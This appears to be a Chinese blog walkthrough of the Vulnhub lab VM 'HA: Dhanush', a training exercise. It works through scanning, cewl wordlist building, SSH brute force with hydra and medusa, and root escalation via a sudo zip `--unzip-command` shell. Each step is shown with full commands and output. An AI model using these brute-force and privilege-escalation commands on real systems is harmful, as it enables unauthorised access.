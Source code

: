 ```yaml
---
layout: post
title: "Dhanush walkthrough"
date: 2021-10-05
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP                |
| ------------- | ----------------- |
| 本机（Win10） | `192.168.174.1`   |
| Kali          | `192.168.174.128` |
| Dhanush       | `192.168.174.133` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.174.133`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.174.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-05 06:20 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 192.168.174.133
Host is up (0.00057s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Dhanush
65345/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:2f:3d:dd:ac:42:d4:d5:de:ec:9b:19:0b:45:3e:13 (RSA)
|   256 89:02:8d:a5:e0:75:a5:34:3b:52:3a:6c:d1:f4:05:da (ECDSA)
|_  256 ea:af:62:07:73:d0:d5:1e:fb:a9:12:62:34:27:52:d9 (ED25519)
MAC Address: 00:0C:29:27:59:ED (VMware)
```

扫描结果比较简洁，观察到靶机将 *ssh* 服务的默认端口改成了 **65345** 端口，此外访问网页也没发现有价值的信息，此外尝试多个字典进行目录枚举也依旧无果。想到作者提示的 **枚举是关键**， 那就只能是 ssh 用户名和密码枚举了。如果熟悉 vulnhub上作者的套路的话就会知道大多都可以通过 *cewl* 爬取网页上的内容来生成字典。

我们通过 *cewl* 得到密码字典之后再对字典文件中的非ASCII字符进行过滤，命令为：`tr -d '\200-\377' < dic.txt | sort | uniq > dic1.txt`。之后执行 *hydra* 工具的爆破命令：`hydra -L dict1.txt 192.168.143.133 ssh -s 65345 -e nsr`，最后得到正确的账户和密码：`pinak:Gandiv`。

### Getshell

使用爆破出来的账户名和密码登录到服务器，之后进行常规信息收集。

```shell
┌──(root💀kali)-[~]
└─# ssh pinak@192.168.174.133 -p 65345
pinak@192.168.174.133's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)
......

pinak@ubuntu:~$ id
uid=1001(pinak) gid=1001(pinak) groups=1001(pinak)
pinak@ubuntu:~$ sudo -l
Matching Defaults entries for pinak on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pinak may run the following commands on ubuntu:
    (sarang) NOPASSWD: /bin/cp
```

发现该用户可执行 *sarang* 账户下的 */bin/cp* 命令，这里进行 *sarang* 用户的免密ssh登录配置即可。

#### 提权 

之后登录到 *sarang* 账户下，查看具备的特殊权限时发现可执行 *root* 账户下的 `/usr/bin/zip`命令，因此这里就是一个 `zip` 本地提权操作。

```shell
sarang@ubuntu:~/.ssh$ sudo -l
Matching Defaults entries for sarang on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sarang may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/zip
sarang@ubuntu:~/.ssh$ /usr/bin/zip
```

执行命令： `sudo /usr/bin/zip a.zip a.txt -T --unzip-command="sh -c /bin/bash"`即可提权到 *root* ，读取 `/root/flag.txt`就可以拿到flag。

```shell
sarang@ubuntu:~$ touch a.txt
sarang@ubuntu:~$ sudo /usr/bin/zip a.zip a.txt -T --unzip-command="sh -c /bin/bash"
updating: a.txt (stored 0%)
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
root@ubuntu:/root# ls
flag.txt
root@ubuntu:/root# cat flag.txt

                                            @p
                                           @@@.
                                          @@@@@
                                         @@@@@@@
                                        *"`]@P ^^
                                           ]@P
                                           ]@P
                               ,,,,        ]@P       ,,gg,,
                           g@@@@@@@@@b     ]@P    ,@@@@@@@@@@g,
                        ,@@@@@@BNPPNB@@@@@@@@@@@@@@@@P**PNB@@@@@w
                      g@@@@P^`        %NNNNN@NNNNNP          *B@@@g
                    g@@@P`                 -@                   "B@@w
                  ,@@@`                    ]@                      %@@,
                 @@P-                      ]@                        *@@,
              ,@@"                         ]@                          *B@
            ,@N"                          y@@B                            %@,
      ,,  g@P-                            ]@@@P                             *Bg ,gg
      @@@@$,,,,,,,,,,,,,,,,,,,,,,,,,,ggggg@@@@wwwwwwwwwgggggggggww==========mm4NNN"

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Nisha Sharma     : https://in.linkedin.com/in/nishasharmaa

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
____________________________________
```

### 总结

总体来是比较简单的，主要的难点就是如何获取字典，和ssh爆破。这里再推荐两个ssh爆破工具：

1. medusa：`medusa -h 192.168.174.133 -U dic1.txt -P dic1.txt -M ssh -n 65345 -t 100 `
2. msfconsole: `use auxiliary/scanner/ssh/ssh_login `

此外是对字典的过滤，删除非ASCII字符的命令是：`tr -d '\200-\377' < dic.txt`。

